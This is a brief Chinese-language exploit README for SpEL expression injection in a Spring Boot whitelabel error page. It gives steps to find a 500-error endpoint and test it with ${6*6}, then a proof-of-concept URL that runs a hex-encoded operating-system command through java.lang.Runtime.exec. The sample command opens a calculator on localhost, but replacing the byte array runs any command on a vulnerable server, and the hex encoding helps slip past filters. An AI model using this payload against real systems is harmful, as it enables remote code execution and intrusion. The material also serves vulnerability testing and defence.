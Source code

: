 # whitelabel error page SpEL RCE
## 利用方法
#### 反问url存在500的报错页面，例如`/article`
![](./img/500.png)
#### 执行SpEL表达式,测试是否存在漏洞
输入`/article?id=${6*6}`，如果表达式可以执行并显示在报错页面，则存在表达式注入漏洞。  
![](./img/SpEL.png)
#### POC
将命令转换成0x**格式化的16进制数组  
`http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}`